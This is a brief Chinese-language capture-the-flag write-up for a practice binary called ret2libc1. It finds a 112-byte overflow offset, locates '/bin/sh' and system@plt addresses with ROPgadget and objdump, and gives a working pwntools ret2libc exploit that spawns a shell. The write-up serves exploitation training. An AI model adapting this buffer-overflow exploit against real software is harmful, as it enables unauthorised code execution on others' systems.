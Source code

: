 ### 行为分析

```plaintext
(.venv) vm :: repos/pwn/lab-4 » bin/ret2libc1
RET2LIBC >_<
hi
```

### 反编译分析

![image-20220824144511924](image-20220824144511924.png)

老样子。112偏移，看一眼有没有可利用的字符串。

```plaintext
(.venv) vm :: repos/pwn/lab-4 » ROPgadget --binary bin/ret2libc1 --string '/bin/sh'
Strings information
============================================================
0x08048720 : /bin/sh
```

再看一眼 PLT 有没有 `system` 函数。

```plaintext
(.venv) vm :: repos/pwn/lab-4 » objdump -d -j .plt bin/ret2libc1 | grep system
08048460 <system@plt>:
```

接下来就简单了，直接写 exploit 。

### exploit

```python
from pwn import *

p = process('./bin/ret2libc1', env={})
#                          &system  reta  "/bin/sh"
p.sendline(flat([b'A'*112, 0x08048460, 0, 0x08048720]))
p.interactive()
```
